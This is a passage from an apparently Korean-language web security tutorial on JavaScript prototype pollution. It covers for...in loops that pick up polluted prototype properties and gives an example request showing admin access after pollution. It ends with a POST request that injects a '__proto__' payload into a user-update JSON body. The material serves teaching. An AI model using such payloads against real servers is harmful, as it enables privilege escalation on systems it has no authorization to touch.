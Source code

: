 - 이후 admin 권한 만 접근 가능한 페이지등에 접근을 시도해봅니다.

```http
GET /dashboard HTTP/1.1
→ 응답: "Welcome, Admin"  ← 오염 성공!
```

#### 02. for .. in 루프 악용

- JavaScript `for...in`루프는 프로토타입 체인을 통해 상속받은 속성을 포함하여 객체의 모든 열거 가능한 속성을 반복합니다.
- 예시 1) 객체

```js
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = "bar";

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty("foo"); // false

// list names of properties of myObject
for (const propertyKey in myObject) {
  console.log(propertyKey);
}

// Output: a, b, foo
```

- 예시 2) 배열

```js
const myArray = ["a", "b"];
Object.prototype.foo = "bar";

for (const arrayKey in myArray) {
  console.log(arrayKey);
}

// Output: 0, 1, foo
```

- 위와 같은 취약 코드가 서버에 존재 시 아래와 같이 요청을 시도하게되면

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```
